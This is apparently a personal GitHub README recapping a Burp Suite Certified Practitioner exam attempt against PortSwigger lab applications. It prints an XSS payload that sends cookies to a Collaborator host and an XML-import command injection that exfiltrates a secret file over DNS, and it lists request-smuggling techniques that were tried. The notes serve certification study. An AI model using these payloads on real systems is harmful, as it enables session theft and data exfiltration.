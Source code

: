 # BSCP-Recapitulation
This Repo contains Burp Suite Certification Practitioner Recapitulation of Mine


## BSCP 1<sup>st</sup> Exam
I have taken my first BSCP exam on **December 24th, 2024**. I failed on App 2 without success to address any vulnerabilities. Please find the details in the following points:

### Application 1 - EXPLOITED !!!
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Comment on the Blog Post
    3. Login Form
    4. Forgot Password
   
  - Vulnerability: XSS with Blocked Tags
  - How to trigger for the first time:
    ```javascript
    <script>alert(1)</script>
    ```
  - After scanning the allowed tags and events, I used this payload to ensure it works:
    ```javascript
    <body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>
    ```
  - I attached this *URL Encoded* payload to the Exploit Server:\
    a. Bare Payload
    ```javascript
    <script>Document.location = 'https://WEB_ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>#x';</script>
    ```
    b. URL encoded Payload (You can copy the URL from HTTP history )
    ```javascript
    <script>Document.location="https://WEB_ID.web-security-academy.net/?searchTerm=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fcollaborator.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie+tabindex%3D1%3E#x"</script>
    ```

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email
       
  - Vulnerability: JSON `roleId` in Response Body of Update Email.
  - How to Exploit:
    1. Send this request to the Intruder
    2. Brute the `roleId`
    3. Observe the result with statusCode `302`
   
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import
  - Vulnerability: XXE Injection
  - How to Exploit:
    I used the following payload to exploit this vulnerability (I URL-Encoded the Ampersand(&) character):
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```

### Application 2 - UNEXPLOITED 😢
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Login Form
    3. Forgot Password
       
  - Walkthrough:
    1) I have Performed Host Header Attack using the following kind of techniques:
       - Enumerate using IP address: **NOT VULNERABLE**
       - Exploit using `X-headers`: **NOT VULNERABLE** (Not Reflected to the Exploit Server)
       - Exploit by supplying an absolute URL in the request line as follows `GET https://WEB_ID.WEB_ID.web-security-academy.net/`: **NOT VULNERABLE**. Please refer to [this lab](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)
       - Exploit using duplicated host > **NOT VULNERABLE**
         > [!NOTE]
         > Not Reflected to the Exploit Server
       - Exploit using connection state > **NOT VULNERABLE**
         > [!NOTE]
         > it seems it was not able to use the connection header. Since `Connection` was not reflected in the response.
    2) Brute forcing user > **NOT VULNERABLE**.
         > [!NOTE]
         > There is no response with statusCode `302`)
    3) <a name="walkthrough-number-3"></a>I have found a different `Response Message` in the **Forgot Password** feature that indicates whether the user exists.
    4) I have performed CSRF Attack:
       - modified the CSRF token: **NOT VULNERABLE**
       - Removed CSRF token and Parameter: **NOT VULNERABLE**
       - swap the CSRF token with the value from the other session: **NOT VULNERABLE**
    5) Web Cache: **NOT VULNERABLE** (There is no `Tracking.js` and no `Cache` header in Response).
    6) I Have Performed HTTP Request Smuggling:
       - unable to use `CL` and `TE` Headers in a request: **NOT VULNERABLE** (Indicates we can direct to use **H2 or HTTP2** Techiniques)
       - Performed H2.TE; H2.CL; H2 Smuggling CRLF; CL.0 Req: **NOT VULNERABLE** (always GET `200` response, But It seems I have not exploited these techniques correctly).
    7) I have scanned using the `Launch All Scans` option in the **HTTP Request Smuggler** Extension. In addition, I only got a `dual path` vulnerability. In my opinion, we cannot consider that scan result as a potential vulnerability.
       > [!NOTE]
       > I will describe the reason in the next point).

  - Potential Vulnerability:
    In this section, I am trying to summarize or classify any potential vulnerabilities and any techniques that I have not performed prior BSCP Exam.
    1) H2 Request Splitting via CRLF Injection: **The Most potential vulnerability**.\
       <p> I have tried to find the potential labs in **Port Swigger Academy** that have similarities with my case in the exam. And I have found the closest potential in [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection) with `H2 Request Splitting via CRLF Injection` technique. The reason is When solving that lab, I only got the `dual path` vulnerability in the scan result compared to other `HTTP/2 Request Smuggling` techniques</p>
    2) HTTP/2-TE. Please refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling).
    3) Maybe Obfuscating `TE` Header using payload in **BotesJuan**'s Repo would be a good option.
       > [!NOTE]
       > Please note not to duplicate this header. Just use 1 `TE` Header since duplicated `TE` Header is not allowed).
    5) Perform H2.CL Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling).
    6) Perform CL.0 Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling).
    7) Brute Force the **Password** using the potential `usernames` based on the `Walkthrough` [number 3](#walkthrough-number-3).

    

    
     
